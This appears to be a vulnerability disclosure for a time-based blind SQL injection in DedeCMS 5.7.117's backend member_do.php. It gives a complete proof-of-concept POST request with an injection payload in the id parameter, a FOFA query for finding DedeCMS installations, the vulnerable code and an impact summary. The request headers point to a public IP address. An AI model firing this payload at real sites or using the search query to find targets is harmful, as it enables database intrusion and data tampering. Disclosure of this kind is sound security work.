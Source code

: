 # dede-sql
A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.
dedecms-sql
"/uploads/dede/member_do.php"
A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.

fofa：app="dedecms"

Vulnerability PoC (Proof of Concept)：



POST /dede/member_do.php HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Origin: http://154.217.245.237:321
Accept-Encoding: gzip, deflate
Referer: http://154.217.245.237:321/dede/member_do.php?dopost=delmembers
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=h9tt2vjvirml3asna1ekq04hv6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=037964ffa0771fbf; DedeLoginTime=1747393431; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=a748faa5d92cfdc5; _csrf_name_9db0aa8a=759e15fd9a6d4676714db2b1ea3455b6; _csrf_name_9db0aa8a1BH21ANI1AGD297L1FF21LN02BGE1DNG=93e9f7a333113b48; ENV_GOBACK_URL=%2Fdede%2Fmember_main.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 147

fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314&safecode=29196a09b90ce5dd1bbe7314&imageField1.x=42&imageField1.y=16
![image](https://github.com/user-attachments/assets/bfa264f2-5ac4-492a-ab05-607bb80230c3)




Vulnerability Type: Authentication-bypassable SQL Injection (Time-based Blind)

A SQL Injection vulnerability exists in DedeCMS version 5.7.117 in the backend script member_do.php. The id parameter used in the "delete member" (dopost=delmembers) functionality is insufficiently sanitized. Although a preg_replace is applied (preg_replace("#[^0-9]#", "", $id)), the variable is used before sanitization within SQL queries, leading to a time-based blind SQL injection.

An authenticated attacker can exploit this vulnerability by sending a crafted POST request containing malicious SQL in the id parameter, such as:

POST /dede/member_do.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
...
fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314

The SQL injection allows arbitrary query execution in the database context, enabling data extraction or service disruption via sleep-based attacks. The vulnerability resides in this code snippet:

$row = $dsql->GetOne("SELECT * FROM `#@__member` WHERE mid='$id' LIMIT 1");
...
$rs = $dsql->ExecuteNoneQuery2("DELETE FROM `#@__member` WHERE mid='$id' LIMIT 1");



Impact:
This vulnerability allows authenticated attackers to execute arbitrary SQL queries in the backend, leading to information disclosure, data manipulation, or denial of service.
![image](https://github.com/user-attachments/assets/38e34468-9ddf-4e60-a9b2-df4912a2e7ec)
<img width="553" alt="image" src="https://github.com/user-attachments/assets/81360231-cd23-4192-a412-9dac7f959eca" />


